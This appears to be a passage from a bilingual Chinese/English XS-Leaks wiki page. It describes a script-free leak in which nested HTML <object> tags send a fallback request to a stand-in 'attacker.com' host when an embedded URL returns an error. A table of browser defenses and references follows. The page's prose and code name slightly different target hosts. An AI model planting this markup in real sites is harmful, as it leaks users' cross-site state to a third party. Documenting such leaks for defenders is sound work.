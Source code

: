 下面的代码嵌入了 `//example.org/404`，如果它的响应是 *Error*，那么作为 fallback，会向 `//attacker.com/?error` 发出请求。

The below code embeds `//example.org/404` and if it responds with *Error* then a request to `//attacker.com/?error` is also made as a fallback.

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## 防御

| 攻击方式 | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|     Type leaks     |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |

## 参考文献
[^script-leaks]: The Unexpected Dangers of Dynamic JavaScript. [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
[^fallback]: HTML Standard, [3.2.5.2.6 Embedded content], [link](https://html.spec.whatwg.org/multipage/dom.html#fallback-content)  
[^leaky-images]: Leaky Images: Targeted Privacy Attacks in the Web, [3.4 Linking User Identities], [link](https://www.usenix.org/system/files/sec19fall_staicu_prepub.pdf)  
[^xsleaks-nojs]: [https://twitter.com/terjanq/status/1180477124861407234](https://twitter.com/terjanq/status/1180477124861407234)  
